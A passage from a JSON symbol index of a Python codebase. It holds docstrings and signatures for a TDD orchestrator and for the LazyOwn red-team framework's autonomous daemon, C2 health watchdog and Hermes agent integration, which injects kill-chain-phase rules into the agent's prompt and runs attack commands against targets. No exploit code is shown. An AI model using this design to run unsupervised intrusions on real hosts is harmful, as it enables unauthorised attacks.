"kind": "function", "line": 148, "name": "_ask_llm", "signature": "def _ask_llm(contract, backend)"}, {"doc": "Run the spec agent for one contract.\n\nArgs:\n    contract: The contract the spec implements.\n    config: Active runtime configuration.\nReturns:\n    The result the orchestrator persists and validates.", "kind": "function", "line": 204, "name": "run", "signature": "def run(contract, config)"}]}, {"doc": "Test-Driven Development agent.  The agent lifts a Spec into a pytest module. The cycle halts at red. The agent will not advance to the next stage until pytest reports a failure for the new tests. The agent never writes a passing test. The agent uses the BDD Given When Then structure inside the test function so the test name reads as a behaviour.  The agent writes the test file with a single public function per sad path and one extra function for the happy path. The test functions import the implementation module the bdd agent will produce. The implementation module does not exist when the tdd agent runs. The pytest collection step must fail with an ImportError or an assertion. The orchestrator counts the ImportError as a red outcome.", "id": "skills/claude_md_orchestrator/tdd_agent.py", "kind": "module", "label": "tdd_agent.py", "language": "py", "sha256": "aab732aff919153b", "symbol_count": 7, "symbols": [{"doc": "Return a snake case slug derived from the value.", "kind": "function", "line": 79, "name": "_slug", "signature": "def _slug(value)"}, {"doc": "Outcome of running the test agent.\n\nAttributes:\n    suite: The TestSuite the agent produced.\n    findings: DoD findings the agent collected. The orchestrator\n        halts on a blocker.\n    red: True when pytest reported a failure for the new tests.", "kind": "class", "line": 90, "name": "TddResult", "signature": "class TddResult"}, {"doc": "Return the python module name the implementation will use.", "kind": "function", "line": 105, "name": "_module_name", "signature": "def _module_name(contract)"}, {"doc": "Render the pytest module body for the contract.\n\nArgs:\n    spec: The spec the tests cover.\n    contract: The contract the spec implements.\nReturns:\n    The python source of the test module.", "kind": "function", "line": 110, "name": "_compose_tests", "signature": "def _compose_tests(spec, contract)"}, {"doc": "Run pytest and return the exit code plus the wall clock duration.\n\nArgs:\n    test_path: Absolute path of the test module to execute.\n    cwd: Working directory the agent uses for the run.\nReturns:\n    A tuple of (exit_code, duration_seconds).", "kind": "function", "line": 154, "name": "_run_pytest", "signature": "def _run_pytest(test_path, cwd)"}, {"doc": "Run the test agent for one contract.\n\nArgs:\n    contract: The contract the spec implements.\n    spec: The spec the tests cover.\n    config: Active runtime configuration.\nReturns:\n    The result the orchestrator persists. The red flag is True\n    when pytest reported a failure for the new tests. The\n    orchestrator advances only when red is True.", "kind": "function", "line": 175, "name": "run", "signature": "def run(contract, spec, config)"}, {"doc": "Return the test source for inspection.\n\nArgs:\n    test_path: Absolute path of the test module.\nReturns:\n    The test source as a string. None when the file does not\n    exist.", "kind": "function", "line": 228, "name": "read_test_source", "signature": "def read_test_source(test_path)"}]}, {"doc": "Pytest bootstrap for the claude_md_orchestrator test suite.  The test suite lives next to the package, not inside the project test tree. The conftest inserts the parent skills directory into sys.path so the import resolver finds the package under the project root.", "id": "skills/claude_md_orchestrator/tests/conftest.py", "kind": "module", "label": "conftest.py", "language": "py", "sha256": "cbcd8b0ef7992ae8", "symbol_count": 0, "symbols": []}, {"doc": "Unit tests for the claude_md_orchestrator package.  The tests pin the behavior of every agent. The tests use a temporary run directory so the suite never touches the real run state. The tests run the orchestrator end to end against a seeded contract and verify that the cycle walks the six stages in order, that the spec satisfies the DoD, that the tests start red, that the implementation makes the tests green, and that the reviewer approves the artifacts.", "id": "skills/claude_md_orchestrator/tests/test_orchestrator.py", "kind": "module", "label": "test_orchestrator.py", "language": "py", "sha256": "9830b697ae91858b", "symbol_count": 20, "symbols": [{"doc": "Return a fresh run directory the test can mutate freely.", "kind": "function", "line": 46, "name": "tmp_run_dir", "signature": "def tmp_run_dir(tmp_path)"}, {"doc": "Return a Config that points at the temp run directory.", "kind": "function", "line": 54, "name": "config", "signature": "def config(tmp_run_dir, tmp_path)"}, {"doc": "The parser returns the contract the markdown declares.", "kind": "function", "line": 78, "name": "test_parser_extracts_contract", "signature": "def test_parser_extracts_contract(config)"}, {"doc": "The spec agent writes a YAML spec with at least six sad paths.", "kind": "function", "line": 86, "name": "test_sdd_agent_writes_spec", "signature": "def test_sdd_agent_writes_spec(config)"}, {"doc": "The tdd agent lands the test module and the red outcome holds.", "kind": "function", "line": 102, "name": "test_tdd_agent_lands_red", "signature": "def test_tdd_agent_lands_red(config)"}, {"doc": "The bdd agent makes the test module pass.", "kind": "function", "line": 116, "name": "test_bdd_agent_lands_green", "signature": "def test_bdd_agent_lands_green(config)"}, {"doc": "The DoD validator flags emoji in source code.", "kind": "function", "line": 131, "name": "test_dod_validators_block_emoji", "signature": "def test_dod_validators_block_emoji()"}, {"doc": "The DoD validator flags inline comments in source code.", "kind": "function", "line": 138, "name": "test_dod_validators_block_inline_comments", "signature": "def test_dod_validators_block_inline_comments()"}, {"doc": "The DoD validator flags TODO and FIXME markers.", "kind": "function", "line": 145, "name": "test_dod_validators_block_todo_markers", "signature": "def test_dod_validators_block_todo_markers()"}, {"doc": "The DoD validator flags absolute paths the developer typed by hand.", "kind": "function", "line": 152, "name": "test_dod_validators_block_absolute_paths", "signature": "def test_dod_validators_block_absolute_paths()"}, {"doc": "The DoD validator flags public functions without a docstring.", "kind": "function", "line": 159, "name": "test_dod_validators_require_docstrings", "signature": "def test_dod_validators_require_docstrings()"}, {"doc": "The orchestrator walks the full cycle and reaches the done stage.", "kind": "function", "line": 166, "name": "test_orchestrator_full_cycle", "signature": "def test_orchestrator_full_cycle(config)"}, {"doc": "The orchestrator pads the spec to satisfy the minimum sad path count.\n\nThe spec agent always emits at least max_sad_paths sad paths. The\ntest sets a low floor and confirms the cycle finishes. The\norchestrator must never block on a count shortage because the\nsdd agent guarantees the contract.", "kind": "function", "line": 188, "name": "test_orchestrator_blocks_on_sad_path_shortage", "signature": "def test_orchestrator_blocks_on_sad_path_shortage(config)"}, {"doc": "The orchestrator halts when the parser returns zero contracts.", "kind": "function", "line": 204, "name": "test_orchestrator_blocks_on_missing_contracts", "signature": "def test_orchestrator_blocks_on_missing_contracts(tmp_run_dir, tmp_path)"}, {"doc": "The documentation agent emits a fenced markdown block.", "kind": "function", "line": 221, "name": "test_documentation_agent_emits_fenced_markdown", "signature": "def test_documentation_agent_emits_fenced_markdown(config)"}, {"doc": "The boy scout returns a structured report with no findings for clean code.", "kind": "function", "line": 237, "name": "test_boy_scout_returns_report", "signature": "def test_boy_scout_returns_report(config)"}, {"doc": "The cicd agent writes a pipeline and a PR body.", "kind": "function", "line": 260, "name": "test_cicd_agent_writes_pipeline", "signature": "def test_cicd_agent_writes_pipeline(config)"}, {"doc": "The spec dataclass survives a JSON round trip.", "kind": "function", "line": 294, "name": "test_models_spec_round_trip", "signature": "def test_models_spec_round_trip()"}, {"doc": "The deploy gate ships only on the exact shared secret.", "kind": "function", "line": 310, "name": "test_cicd_deploy_gate_checks_secret", "signature": "def test_cicd_deploy_gate_checks_secret(config)"}, {"doc": "The deploy gate compares secrets with hmac.compare_digest.", "kind": "function", "line": 332, "name": "test_cicd_deploy_gate_is_timing_safe", "signature": "def test_cicd_deploy_gate_is_timing_safe()"}]}, {"doc": "DoD validators for every artifact the orchestrator produces.  The validators are the single source of truth for the Definition of Done. Every agent calls them before it writes a result to disk. The reviewer agent cross checks the same set so the cycle halts on a real violation rather than on an opinion.", "id": "skills/claude_md_orchestrator/validators.py", "kind": "module", "label": "validators.py", "language": "py", "sha256": "10d96c1ac9110248", "symbol_count": 15, "symbols": [{"doc": "Outcome of running one validator over a piece of content.\n\nAttributes:\n    findings: Findings the validator raised. Empty list means the\n        artifact is compliant.", "kind": "class", "line": 77, "name": "CheckResult", "signature": "class CheckResult"}, {"doc": "Return the start and end line of every block comment in source.\n\nArgs:\n    source: Python source code.\nReturns:\n    A list of tuples. Each tuple carries the start line and the\n    end line of a block comment.", "kind": "function", "line": 97, "name": "find_block_comments", "signature": "def find_block_comments(source)"}, {"doc": "Return the line numbers of every inline comment in source.\n\nInline comments are tokens that start with the COMMENT token type.\nThe helper walks the token stream and ignores shebang lines.", "kind": "function", "line": 119, "name": "find_inline_comments", "signature": "def find_inline_comments(source)"}, {"doc": "Return a finding for every comment in the source code.\n\nArgs:\n    source: Python source code.\n    path: Path the source belongs to. Used in the finding.\nReturns:\n    Findings. Empty list when the source has no comments.", "kind": "function", "line": 136, "name": "check_no_comments", "signature": "def check_no_comments(source, path)"}, {"doc": "Return a finding for every emoji the content carries.\n\nArgs:\n    content: Text to inspect.\n    path: Path the content belongs to. Used in the finding.\nReturns:\n    Findings. Empty list when the content has no emoji.", "kind": "function", "line": 167, "name": "check_no_emoji", "signature": "def check_no_emoji(content, path)"}, {"doc": "Return a finding for every TODO, FIXME, XXX, or HACK marker.", "kind": "function", "line": 189, "name": "check_no_forbidden_markers", "signature": "def check_no_forbidden_markers(content, path)"}, {"doc": "Return a finding for every Spanish hint the source carries.\n\nThe validator is conservative. It scans identifiers, docstrings,\nand string literals. False positives are possible. The reviewer\ntreats every hit as a warning and the operator can mark it as a\nnon blocker through the strict flag.", "kind": "function", "line": 206, "name": "check_english_only", "signature": "def check_english_only(source, path)"}, {"doc": "Return a finding for every public function or class without a docstring.\n\nThe validator parses the source with ast and walks the tree. A\npublic name is a name that does not start with an underscore. A\nmissing docstring is a blocker.", "kind": "function", "line": 230, "name": "check_docstrings", "signature": "def check_docstrings(source, path)"}, {"doc": "Return a finding for every absolute path or IP literal.\n\nArgs:\n    source: Python source code.\n    path: Path the source belongs to.\nReturns:\n    Findings. Empty list when the source has no hardcoded literal.", "kind": "function", "line": 271, "name": "check_no_hardcoded_paths_or_ips", "signature": "def check_no_hardcoded_paths_or_ips(source, path)"}, {"doc": "Return a finding for every numeric literal that is not in the allow list.\n\nArgs:\n    source: Python source code.\n    path: Path the source belongs to.\n    allow: Iterable of literals that are explicitly allowed.\nReturns:\n    Findings. Empty list when the source has no magic number.", "kind": "function", "line": 305, "name": "check_magic_numbers", "signature": "def check_magic_numbers(source, path, allow)"}, {"doc": "Run every source level DoD check and return the findings.", "kind": "function", "line": 340, "name": "check_source", "signature": "def check_source(source, path, allow_numbers)"}, {"doc": "Run every markdown level DoD check and return the findings.", "kind": "function", "line": 353, "name": "check_markdown", "signature": "def check_markdown(content, path)"}, {"doc": "Run the spec level DoD check and return the findings.", "kind": "function", "line": 362, "name": "check_spec", "signature": "def check_spec(spec, min_sad_paths)"}, {"doc": "Return True when the result has no findings.", "kind": "method", "line": 88, "name": "passed", "signature": "def passed(self)"}, {"doc": "Return the blocker findings only.", "kind": "method", "line": 92, "name": "blocks", "signature": "def blocks(self)"}]}, {"doc": "Operator steering layer for the LazyOwn autonomous daemon.  The daemon (``skills/autonomous_daemon.py``) reads the control state written here before every command execution. The CLI (``do_daemon_*``) and MCP (``lazyown_daemon_*``) write the same state. This module owns:  * The data model (:class:`ControlState`, :class:`PendingAction`). * Atomic persistence to ``sessions/daemon_control.json``. * The approval-gate state machine and a blocking wait helper.  All public methods are safe for concurrent use across processes because every write goes through ``tempfile`` + ``os.replace`` so readers either see the previous file or the new one but never a truncated file.", "id": "skills/daemon_control.py", "kind": "module", "label": "daemon_control.py", "language": "py", "sha256": "eb8c8d25acfa4c9a", "symbol_count": 27, "symbols": [{"doc": "A single command awaiting operator approval.\n\nArgs:\n    action_id: Unique identifier matched by the operator when\n        approving or vetoing.\n    command: Shell command proposed by the daemon.\n    reason: Selector-supplied rationale forwarded to the operator.\n    target: Active target host the command will run against.\n    proposed_at: Epoch seconds when the action was registered.\n    ttl_seconds: How long the action waits before expiring.\n    decision: One of :data:`DECISION_PENDING`,\n        :data:`DECISION_APPROVED`, :data:`DECISION_VETOED`,\n        :data:`DECISION_EXPIRED`.\n    decided_at: Epoch seconds when the decision was recorded\n        (``0.0`` while pending).\n    operator: Identifier of the operator who decided (empty when\n        expired).", "kind": "class", "line": 49, "name": "PendingAction", "signature": "class PendingAction"}, {"doc": "Steering state shared between operator surfaces and the daemon.\n\nArgs:\n    mode: One of :data:`MODE_AUTO`, :data:`MODE_APPROVAL`,\n        :data:`MODE_PAUSED`. Default is auto, which preserves the\n        historical daemon behaviour.\n    vetoed_commands: First-token names the daemon must avoid.\n    focus_targets: When non-empty, the daemon only executes\n        objectives whose target appears in this list.\n    pending: Active approval request, when ``mode == approval`` and\n        the daemon has proposed a command.\n    updated_at: Epoch seconds of the last write — populated by\n        :meth:`DaemonControl.save`.", "kind": "class", "line": 88, "name": "ControlState", "signature": "class ControlState"}, {"doc": "Return the first whitespace-separated token of ``command``.", "kind": "function", "line": 154, "name": "_first_token", "signature": "def _first_token(command)"}, {"doc": "Atomic read/write facade for ``sessions/daemon_control.json``.\n\nAll mutations write to a temp file then ``os.replace`` for\natomicity so concurrent readers (daemon + CLI + MCP) never observe\npartial JSON. The instance is also safe to share inside one\nprocess: every write is serialised by an internal lock.", "kind": "class", "line": 162, "name": "DaemonControl", "signature": "class DaemonControl"}, {"doc": "Block until the operator decides or the TTL expires.\n\nThe poll interval and clock are injectable so unit tests can drive\nthe state machine deterministically without sleeping.\n\nArgs:\n    control: :class:`DaemonControl` instance bound to the same\n        ``sessions/`` directory the operator surfaces use.\n    action: The :class:`PendingAction` previously returned by\n        :meth:`DaemonControl.propose`.\n    poll_interval: Seconds between state polls.\n    sleep_fn: Replaceable ``time.sleep`` for tests.\n    now_fn: Replaceable ``time.time`` for tests.\n\nReturns:\n    The final :class:`PendingAction` with ``decision`` set to one\n    of :data:`DECISION_APPROVED`, :data:`DECISION_VETOED`, or\n    :data:`DECISION_EXPIRED`.", "kind": "function", "line": 394, "name": "wait_for_decision", "signature": "def wait_for_decision(control, action)"}, {"doc": "Block while the daemon is paused, returning when it resumes.\n\nArgs:\n    control: :class:`DaemonControl` instance.\n    poll_interval: Seconds between mode checks.\n    sleep_fn: Replaceable ``time.sleep`` for tests.\n    max_wait_seconds: Optional upper bound. ``None`` waits forever.\n    now_fn: Replaceable ``time.time`` for tests.\n\nReturns:\n    ``True`` when the daemon resumed; ``False`` when\n    ``max_wait_seconds`` elapsed without a resume signal.", "kind": "function", "line": 445, "name": "wait_until_unpaused", "signature": "def wait_until_unpaused(control)"}, {"doc": "Return ``True`` when a still-pending action has exceeded its TTL.", "kind": "method", "line": 79, "name": "is_expired", "signature": "def is_expired(self, now)"}, {"doc": "Serialise the state to a plain JSON-ready dict.", "kind": "method", "line": 110, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a state from JSON data, sanitising malformed input.", "kind": "method", "line": 121, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"doc": "Pin the control file to ``<sessions_dir>/daemon_control.json``.\n\nArgs:\n    sessions_dir: Absolute or relative path to the LazyOwn\n        ``sessions/`` directory. The directory is created on\n        the first write if it does not yet exist.", "kind": "method", "line": 171, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Absolute path of the control file on disk.", "kind": "method", "line": 184, "name": "path", "signature": "def path(self)"}, {"doc": "Return the current state or defaults when the file is missing.", "kind": "method", "line": 188, "name": "load", "signature": "def load(self)"}, {"doc": "Persist ``state`` atomically.\n\nThe ``updated_at`` field is overwritten with the current epoch\nso callers do not need to maintain it.", "kind": "method", "line": 201, "name": "save", "signature": "def save(self, state)"}, {"doc": "Switch between :data:`MODE_AUTO`, :data:`MODE_APPROVAL`, :data:`MODE_PAUSED`.", "kind": "method", "line": 231, "name": "set_mode", "signature": "def set_mode(self, mode)"}, {"doc": "Convenience wrapper for ``set_mode(MODE_PAUSED)``.", "kind": "method", "line": 240, "name": "pause", "signature": "def pause(self)"}, {"doc": "Convenience wrapper for ``set_mode(MODE_AUTO)``.", "kind": "method", "line": 244, "name": "resume", "signature": "def resume(self)"}, {"doc": "Convenience wrapper for ``set_mode(MODE_APPROVAL)``.", "kind": "method", "line": 248, "name": "require_approval", "signature": "def require_approval(self)"}, {"doc": "Append a first-token name to the veto list.\n\nRaises:\n    ValueError: When ``command_token`` is empty.", "kind": "method", "line": 252, "name": "add_veto", "signature": "def add_veto(self, command_token)"}, {"doc": "Remove a previously vetoed command from the list.", "kind": "method", "line": 267, "name": "remove_veto", "signature": "def remove_veto(self, command_token)"}, {"doc": "Remove every entry from the veto list.", "kind": "method", "line": 275, "name": "clear_vetoes", "signature": "def clear_vetoes(self)"}, {"doc": "Replace the focus-target list. An empty list disables focus.", "kind": "method", "line": 282, "name": "set_focus", "signature": "def set_focus(self, targets)"}, {"doc": "Daemon-side: register a pending action awaiting approval.\n\nReturns the freshly created :class:`PendingAction` whose\n``action_id`` the daemon will use when calling\n:func:`wait_for_decision` and :meth:`consume`.", "kind": "method", "line": 290, "name": "propose", "signature": "def propose(self, command)"}, {"doc": "Operator-side: approve or veto the pending action.\n\nReturns the updated :class:`PendingAction` or ``None`` when\nthere is no pending action with the supplied id.\n\nRaises:\n    ValueError: When ``decision`` is not approved or vetoed.", "kind": "method", "line": 317, "name": "decide", "signature": "def decide(self, action_id, decision)"}, {"doc": "Daemon-side: read the final decision and clear the slot.\n\nWhen the action is still pending but has exceeded its TTL the\nreturned :class:`PendingAction` carries ``decision =\nDECISION_EXPIRED``. The pending slot is always cleared so the\ndaemon can propose a new action on the next step.\n\nArgs:\n    action_id: Identifier returned by :meth:`propose`.\n    now: Replaceable wall-clock value, in epoch seconds. When\n        ``None`` (production default) ``time.time()`` is used.\n        Tests pass an explicit value so expiry can be exercised\n        deterministically.", "kind": "method", "line": 343, "name": "consume", "signature": "def consume(self, action_id)"}, {"doc": "Return ``True`` when the daemon must stop before executing.", "kind": "method", "line": 375, "name": "is_paused", "signature": "def is_paused(self)"}, {"doc": "Return ``True`` when the command's first token is in the veto list.", "kind": "method", "line": 379, "name": "is_vetoed", "signature": "def is_vetoed(self, command)"}, {"doc": "Return ``True`` when no focus is configured or ``target`` is in focus.", "kind": "method", "line": 386, "name": "target_in_focus", "signature": "def target_in_focus(self, target)"}]}, {"doc": "Daemon health monitor — watchdog for the autonomous daemon and C2 listeners.  Writes periodic heartbeat timestamps and provides a simple liveness check so other components (MCP, C2 API, CLI) can detect a crashed daemon.  Health file: ``sessions/daemon_health.json``  Usage: from skills.daemon_health import DaemonHealth, is_daemon_alive  health = DaemonHealth() health.start(interval=5)   # background thread, writes every 5s ... if is_daemon_alive(): print(\"daemon is running\")", "id": "skills/daemon_health.py", "kind": "module", "label": "daemon_health.py", "language": "py", "sha256": "7c3a01c0f065444f", "symbol_count": 16, "symbols": [{"kind": "function", "line": 32, "name": "_health_path", "signature": "def _health_path()"}, {"doc": "Check whether the autonomous daemon wrote a heartbeat recently.\n\nArgs:\n    timeout: Maximum seconds since last heartbeat before considering dead.\n\nReturns:\n    True when a heartbeat exists and was written within ``timeout`` seconds.", "kind": "function", "line": 36, "name": "is_daemon_alive", "signature": "def is_daemon_alive(timeout)"}, {"doc": "Return the full daemon health snapshot.\n\nArgs:\n    timeout: Maximum seconds since last heartbeat.\n\nReturns:\n    Dict with ``alive``, ``last_heartbeat``, ``uptime_seconds``,\n    ``pid``, ``phase``, ``error_count`` keys.", "kind": "function", "line": 58, "name": "daemon_status", "signature": "def daemon_status(timeout)"}, {"doc": "Background thread that writes a heartbeat timestamp periodically.\n\nArgs:\n    interval: Seconds between heartbeats.\n    health_file: Path to the health JSON file.", "kind": "class", "line": 94, "name": "DaemonHealth", "signature": "class DaemonHealth"}, {"kind": "method", "line": 102, "name": "__init__", "signature": "def __init__(self, interval, health_file)"}, {"kind": "method", "line": 114, "name": "error_count", "signature": "def error_count(self)"}, {"kind": "method", "line": 119, "name": "error_count", "signature": "def error_count(self, value)"}, {"kind": "method", "line": 124, "name": "phase", "signature": "def phase(self)"}, {"kind": "method", "line": 129, "name": "phase", "signature": "def phase(self, value)"}, {"kind": "method", "line": 133, "name": "_write_heartbeat", "signature": "def _write_heartbeat(self)"}, {"kind": "method", "line": 147, "name": "_loop", "signature": "def _loop(self)"}, {"doc": "Launch the heartbeat thread.", "kind": "method", "line": 155, "name": "start", "signature": "def start(self)"}, {"doc": "Stop the heartbeat thread.", "kind": "method", "line": 164, "name": "stop", "signature": "def stop(self)"}, {"doc": "Increment the error counter.", "kind": "method", "line": 175, "name": "record_error", "signature": "def record_error(self)"}, {"doc": "Update the current daemon phase.", "kind": "method", "line": 180, "name": "set_phase", "signature": "def set_phase(self, phase)"}, {"doc": "Increment the completed cycles counter.", "kind": "method", "line": 185, "name": "increment_cycles", "signature": "def increment_cycles(self)"}]}, {"doc": "LazyOwn Heartbeat ================= Lightweight background process that drives the event engine. Runs the CSV-tail → rule-match → event-emit loop every N seconds.  Usage: python3 skills/heartbeat.py [--interval 5] [--once]  Options: --interval N   Poll interval in seconds (default: 5) --once         Run one pass and exit (useful for cron/testing) --daemon       Daemonize (write PID to sessions/heartbeat.pid)", "id": "skills/heartbeat.py", "kind": "module", "label": "heartbeat.py", "language": "py", "sha256": "887ebe84e7b8c6d4", "symbol_count": 5, "symbols": [{"kind": "function", "line": 53, "name": "write_pid", "signature": "def write_pid()"}, {"kind": "function", "line": 57, "name": "clear_pid", "signature": "def clear_pid()"}, {"doc": "Return (is_running, pid). Checks if stored PID is still alive.", "kind": "function", "line": 62, "name": "is_running", "signature": "def is_running()"}, {"kind": "function", "line": 74, "name": "run_loop", "signature": "def run_loop(interval, once)"}, {"kind": "function", "line": 127, "name": "main", "signature": "def main()"}]}, {"doc": "Hermes-LazyOwn integration package.  Provides a Hermes-native MCP server and supporting modules for the LazyOwn red-team framework.", "id": "skills/hermes-lazyown/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "d8ae915dfa2de20d", "symbol_count": 0, "symbols": []}, {"doc": "Dynamic Claude.md rule generator for the Hermes-LazyOwn integration.  Produces instruction snippets that Hermes injects into the system prompt based on the current engagement phase, discovered services, and credentials.  Follows the Builder pattern: start from base rules, then layer phase-specific and target-specific constraints.", "id": "skills/hermes-lazyown/claudemd_rules.py", "kind": "module", "label": "claudemd_rules.py", "language": "py", "sha256": "83b6a1fe65ad8e4c", "symbol_count": 14, "symbols": [{"doc": "Builds a dynamic rule set string suitable for Hermes system prompt injection.\n\nUsage:\n    builder = RuleSetBuilder()\n    rules = builder.with_phase(\"recon\").with_target(\"10.10.11.5\").build()\n    # rules is a markdown string that can be appended to the system prompt", "kind": "class", "line": 14, "name": "RuleSetBuilder", "signature": "class RuleSetBuilder"}, {"doc": "Convenience function: build a rule set from parameters.\n\nArgs:\n    phase: Current kill-chain phase.\n    rhost: Active target IP.\n    services: Discovered services strings.\n    creds_found: Whether credentials are known.\n    is_hermes: Whether running inside Hermes.\n\nReturns:\n    A markdown string ready for system prompt injection.", "kind": "function", "line": 185, "name": "generate_rules", "signature": "def generate_rules(phase, rhost, services, creds_found, is_hermes)"}, {"kind": "method", "line": 24, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Set the current engagement phase.", "kind": "method", "line": 31, "name": "with_phase", "signature": "def with_phase(self, phase)"}, {"doc": "Set the active target IP.", "kind": "method", "line": 36, "name": "with_target", "signature": "def with_target(self, rhost)"}, {"doc": "Set discovered services (e.g., ['http:80', 'smb:445']).", "kind": "method", "line": 41, "name": "with_services", "signature": "def with_services(self, services)"}, {"doc": "Set whether credentials have been discovered.", "kind": "method", "line": 46, "name": "with_creds", "signature": "def with_creds(self, found)"}, {"doc": "Set whether running inside a Hermes session.", "kind": "method", "line": 51, "name": "with_hermes", "signature": "def with_hermes(self, is_hermes)"}, {"doc": "Build and return the complete rule set markdown.", "kind": "method", "line": 56, "name": "build", "signature": "def build(self)"}, {"kind": "method", "line": 70, "name": "_base_rules", "signature": "def _base_rules(self)"}, {"kind": "method", "line": 82, "name": "_phase_rules", "signature": "def _phase_rules(self)"}, {"kind": "method", "line": 138, "name": "_service_rules", "signature": "def _service_rules(self)"}, {"kind": "method", "line": 157, "name": "_credential_rules", "signature": "def _credential_rules(self)"}, {"kind": "method", "line": 170, "name": "_hermes_rules", "signature": "def _hermes_rules(self)"}]}, {"doc": "Configuration bridge: unifies LazyOwn payload.json, environment variables, and fallback defaults into a single read-only configuration source.  Follows the Adapter pattern: downstream code depends on this abstraction, not on payload.json directly.", "id": "skills/hermes-lazyown/config_bridge.py", "kind": "module", "label": "config_bridge.py", "language": "py", "sha256": "920649f3bf32f071", "symbol_count": 16, "symbols": [{"doc": "Raised when the configuration bridge cannot resolve a required value.", "kind": "class", "line": 17, "name": "ConfigBridgeError", "signature": "class ConfigBridgeError(Exception)"}, {"doc": "Unified configuration accessor for the Hermes-LazyOwn integration.\n\nReads from (highest priority first):\n  1. Environment variables (HERMES_*, LAZYOWN_*)\n  2. payload.json\n  3. Module-level Defaults\n\nAll values are cached on first read. Call refresh() to invalidate cache.", "kind": "class", "line": 23, "name": "ConfigBridge", "signature": "class ConfigBridge"}, {"kind": "method", "line": 35, "name": "__init__", "signature": "def __init__(self, payload_path)"}, {"doc": "Return the value for *key*, or *default* if not found anywhere.", "kind": "method", "line": 42, "name": "get", "signature": "def get(self, key, default)"}, {"doc": "Return the value for *key*, raising ConfigBridgeError if missing.", "kind": "method", "line": 46, "name": "get_required", "signature": "def get_required(self, key)"}, {"doc": "Return the string value for *key*.", "kind": "method", "line": 53, "name": "get_str", "signature": "def get_str(self, key, default)"}, {"doc": "Return the integer value for *key*.", "kind": "method", "line": 58, "name": "get_int", "signature": "def get_int(self, key, default)"}, {"doc": "Return the boolean value for *key*.", "kind": "method", "line": 66, "name": "get_bool", "signature": "def get_bool(self, key, default)"}, {"doc": "Invalidate all caches so the next read reloads from disk.", "kind": "method", "line": 75, "name": "refresh", "signature": "def refresh(self)"}, {"doc": "Return a dict with the minimal target context (rhost, domain, os_id).", "kind": "method", "line": 80, "name": "active_target", "signature": "def active_target(self)"}, {"doc": "Return a dict with the attacker context (lhost, lport, etc.).", "kind": "method", "line": 90, "name": "attacker_context", "signature": "def attacker_context(self)"}, {"doc": "Return True if running inside a Hermes agent session.", "kind": "method", "line": 99, "name": "is_hermes_session", "signature": "def is_hermes_session(self)"}, {"doc": "Resolve a key across env -> payload -> built-in default.", "kind": "method", "line": 105, "name": "_resolve", "signature": "def _resolve(self, key, default)"}, {"doc": "Map payload keys to env var names and return the value, if set.", "kind": "method", "line": 117, "name": "_from_env", "signature": "def _from_env(self, key)"}, {"doc": "Return the value from payload.json, loading the file if needed.", "kind": "method", "line": 134, "name": "_from_payload", "signature": "def _from_payload(self, key)"}, {"doc": "Lazy-load payload.json with mtime check.", "kind": "method", "line": 139, "name": "_load_payload", "signature": "def _load_payload(self)"}]}, {"doc": "Central constants for the Hermes-LazyOwn integration layer.  All paths, timeouts, and thresholds are derived from environment variables or payload.json. No hardcoded hostnames, ports, or filesystem paths.", "id": "skills/hermes-lazyown/constants.py", "kind": "module", "label": "constants.py", "language": "py", "sha256": "cf824058b9401616", "symbol_count": 15, "symbols": [{"doc": "Payload.json keys referenced across the integration layer.", "kind": "class", "line": 12, "name": "ConfigKeys", "signature": "class ConfigKeys"}, {"doc": "Environment variables used for Hermes integration.", "kind": "class", "line": 35, "name": "EnvKeys", "signature": "class EnvKeys"}, {"doc": "Fallback defaults when neither payload.json nor env vars provide a value.", "kind": "class", "line": 45, "name": "Defaults", "signature": "class Defaults"}, {"doc": "Kill-chain phase identifiers.\n\nCanonical phases are sourced from ``modules.killchain.KillChain``.\nHermes-specific extensions (postexp, persist, cred, c2) are added\nfor agent reasoning beyond the core engagement phases.", "kind": "class", "line": 59, "name": "PhaseNames", "signature": "class PhaseNames"}, {"doc": "LazyOwn directory layout derived at runtime.", "kind": "class", "line": 102, "name": "Paths", "signature": "class Paths"}, {"doc": "Return the LazyOwn project root directory.", "kind": "method", "line": 106, "name": "lazyown_dir", "signature": "def lazyown_dir()"}, {"doc": "Return the path to payload.json.", "kind": "method", "line": 115, "name": "payload_file", "signature": "def payload_file()"}, {"doc": "Return the path to the sessions directory.", "kind": "method", "line": 120, "name": "sessions_dir", "signature": "def sessions_dir()"}, {"doc": "Return the expected nmap scan file for a target.", "kind": "method", "line": 125, "name": "scan_file", "signature": "def scan_file(rhost)"}, {"doc": "Return the expected vulnerability scan file for a target.", "kind": "method", "line": 130, "name": "vulns_file", "signature": "def vulns_file(rhost)"}, {"doc": "Return the path to world_model.json.", "kind": "method", "line": 135, "name": "world_model_file", "signature": "def world_model_file()"}, {"doc": "Return the path to objectives.jsonl.", "kind": "method", "line": 140, "name": "objectives_file", "signature": "def objectives_file()"}, {"doc": "Return the path to tasks.json.", "kind": "method", "line": 145, "name": "tasks_file", "signature": "def tasks_file()"}, {"doc": "Return the path to soul.md.", "kind": "method", "line": 150, "name": "soul_file", "signature": "def soul_file()"}, {"doc": "Return the path to CLAUDE.md.", "kind": "method", "line": 155, "name": "claude_md_file", "signature": "def claude_md_file()"}]}, {"doc": "LazyOwn command executor for the Hermes-LazyOwn integration.  Wraps subprocess interaction with the LazyOwn CLI in a robust, timeout-aware, output-sanitizing layer.  Follows the Command pattern: each execution is encapsulated in an ExecutionResult with metadata.", "id": "skills/hermes-lazyown/executor.py", "kind": "module", "label": "executor.py", "language": "py", "sha256": "3fa72a53a9c6afb0", "symbol_count": 13, "symbols": [{"doc": "Immutable result of a LazyOwn command execution.", "kind": "class", "line": 21, "name": "ExecutionResult", "signature": "class ExecutionResult"}, {"doc": "Executes commands against the LazyOwn CLI via subprocess.\n\nUses a pseudo-terminal when available so that cmd2-based prompts\nand ANSI output are handled correctly.", "kind": "class", "line": 58, "name": "LazyOwnExecutor", "signature": "class LazyOwnExecutor"}, {"kind": "method", "line": 24, "name": "__init__", "signature": "def __init__(self, stdout, stderr, returncode, timed_out, duration_ms)"}, {"doc": "Return stdout and stderr combined.", "kind": "method", "line": 39, "name": "combined", "signature": "def combined(self)"}, {"doc": "Return True if the command exited cleanly and did not time out.", "kind": "method", "line": 47, "name": "success", "signature": "def success(self)"}, {"kind": "method", "line": 51, "name": "__str__", "signature": "def __str__(self)"}, {"kind": "method", "line": 66, "name": "__init__", "signature": "def 